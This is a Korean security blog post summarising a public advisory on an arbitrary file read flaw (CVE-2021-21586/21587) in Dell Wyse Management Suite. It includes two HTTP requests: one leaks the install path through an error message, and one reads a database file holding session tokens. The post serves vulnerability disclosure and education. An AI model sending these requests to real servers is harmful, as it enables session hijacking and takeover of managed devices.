 ```yaml
---
title: "[하루한줄] CVE-2021-21586/21587: Dell Wyse Management Suite Arbitrary File Read"
author: L0ch
tags: [L0ch, cve, dell, arbitrary file read]
categories: [1day1line]
date: 2021-07-13 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[Technical Advisory – Arbitrary File Read in Dell Wyse Management Suite (CVE-2021-21586, CVE-2021-21587)](https://research.nccgroup.com/2021/07/06/technical-advisory-arbitrary-file-read-in-dell-wyse-management-suite-cve-2021-21586-cve-2021-21587/)

## Target

- Dell Wyse Management Suit < 3.3

## Explain

Dell의 클라우드 엔드포인트 관리 솔루션인 Wyse Management Suite(WMS)에서 데이터베이스 파일을 포함한 Arbitrary File Read 취약점의 세부 정보가 공개되었습니다.

WMS의 `/ccm-web/image/os` 는 `filePath`와 `fileName` 매개변수를 받아 시스템 경로에서 파일을 검색합니다. 장치 ID를 사용해 유효하지 않은 요청을 보내면 다음과 같이 오류 메세지를 반환합니다.

```c
PUT /ccm-web/image/pull/a/b HTTP/1.1
Host: [redacted]
X-Stratus-device-id:wyse106[redacted]3149

-

HTTP/1.1 500 
Cache-Control: private
Expires: Thu, 01 Jan 1970 00:00:00 GMT
...

C:\Program Files\DELL\Software\repository\imagePull\staging\a\b (The system cannot find the path specified)
```

오류 메세지에서 WMS가 설치된 시스템의 경로가 노출되며 아래와 같이 세션 토큰이 있는 MySQL 데이터베이스 테이블인 `[PATH]\DELL\WMS\Database\SQL\stratus\persistentlogin.ibd` 파일에서 JSESSIONID 값을 추출할 수 있고 이는 세션 하이재킹으로 이어질 수 있습니다.

```c
GET /ccm-web/image/os?filePath=C:\Program Files\DELL\WMS\Database\SQL\stratus&fileName=persistentlogin.ibd HTTP/1.1
Host: [redacted]
X-Stratus-device-id:wyse106[redacted]3149
```

해당 취약점을 악용하면 관리 인터페이스의 BIOS 패스워드 재설정 및 VNC를 통한 원격 터미널 등의 기능에 액세스할 수 있습니다.

